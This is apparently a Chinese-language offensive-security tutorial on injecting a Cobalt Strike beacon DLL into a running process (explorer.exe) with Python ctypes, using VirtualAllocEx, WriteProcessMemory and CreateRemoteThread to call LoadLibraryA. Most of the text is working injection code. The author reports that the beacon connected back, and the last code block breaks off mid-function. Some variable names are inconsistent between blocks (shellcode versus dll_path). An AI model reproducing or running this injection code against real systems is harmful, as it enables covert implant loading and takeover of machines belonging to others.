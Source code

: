 绝对路径的获取可以使用 os 库来完成  

```
import os
shellcode = os.path.abspath('beacon64.dll')
# shellcode = "C:\\Users\\lcg17\\Desktop\\cs\\beacon64.dll"
shellcode = bytearray(shellcode)
arg_address = ctypes.windll.kernel32.VirtualAllocEx(h_process, 0, len(dll_path), 0x1000, 0x04)
```

WriteProcessMemory 函数

将 dll 绝对路径写入已打开程序申请的小内存中

```
shellcode = (ctypes.c_char * len(dll_path)).from_buffer(dll_path)
ctypes.windll.kernel32.WriteProcessMemory(h_process, arg_address, shellcode,len(dll_path), 0)
```

CreateRemoteThread 函数

可以在打开进程的虚拟地址空间中远程创建一个线程。

我们要用此函数实现：在指定进程创建一个线程，线程的动作是调用 LoadLibraryA 函数加载 DLL 文件。

函数原型上文讲过，这次重点是 4,5 参数

第 4 参数是调用函数的指针，传入 LoadLibraryA 内存地址，但传入时有个要求参数是一种类型的函数指针

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSNm0LR8A6BdSLiaobrMYza7ERxIjvnC4X7YNX4jMbxJBLoYEYn6VpicZq8DFicibgtkI1M1roFp9hE2Pw/640?wx_fmt=png)

在 c 中转化简单，在 py 中需要用 ctypes 库将内存地址转为函数指针  

```
LPTHREAD_START_ROUTINE = ctypes.WINFUNCTYPE(wintypes.DWORD, wintypes.LPVOID)
start = LPTHREAD_START_ROUTINE(LLA)
```

第 5 个参数是则是传入 LoadLibraryA 需要的参数，也就是 DLL 绝对路径  

```
handle = ctypes.windll.kernel32.CreateRemoteThread(h_process, None, 0, start, arg_address, 0, 0)
```

这样就完成了我们的 **dll 注入**。  

测试  

使用 CS 生成 64 位 beacon.dll，注入程序测试的 explorer，pid 为 2984  

py 源码

在测试源码的时候，发现 py 就是实现不了，ctypes 用不熟练很多的坑

经过半个月的摸索，改了几处问题，终于上线了。。。

```
import ctypes
from ctypes import *
from ctypes import wintypes
import sys,os

def inject(file,pid):
    PROCESS_ALL_ACCESS = (0x000F0000 | 0x00100000 | 0xFFF)
    h_process = ctypes.windll.kernel32.OpenProcess(PROCESS_ALL_ACCESS, False, int(pid))
    if h_process:
        dll_path = os.path.abspath(file)
        print(dll_path)
        # dll_path = "C:\\Users\\lcg17\\Desktop\\cs\\beacon64.dll"
        dll_path = bytearray(dll_path)

        arg_address = ctypes.windll.kernel32.VirtualAllocEx(h_process, ctypes.c_int(0), ctypes.c_int(len(dll_path)),ctypes.c_int(0x3000), ctypes.c_int(0x04))
        buf = (ctypes.c_char * len(dll_path)).from_buffer(dll_path)
```